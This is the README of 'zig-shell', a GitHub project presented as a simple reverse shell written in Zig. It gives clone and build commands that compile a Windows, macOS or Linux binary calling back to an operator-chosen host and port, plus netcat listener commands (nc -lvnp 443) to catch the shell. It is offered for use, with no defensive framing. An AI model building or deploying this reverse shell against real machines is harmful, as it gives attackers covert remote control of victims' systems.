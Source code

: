 # zig-shell
> simple reverse shell in zig

# usage
> download zig 0.14 from https://ziglang.org/download/ extract and add it to your path

1. `git clone https://github.com/ziggoon/zig-shell`
2. `cd zig-shell`
3. `zig build -Dos=windows -Darch=x86 -Dhost="192.168.0.1" -Dport=443`
4. binary will be output to ./zig-out/bin/ivy

build.zig options:
`os`: operating system (windows, macos, linux)
`arch`: cpu architecture (x86 or arm)
`host`: ip / fqdn for your nc listener
`port`: port for your nc listener

nc usage:
*nix: `nc -lvnp 443`
macos: `nc -lv 443`

*note: this probably works on all operating systems and cpu architectures i just haven't tested*
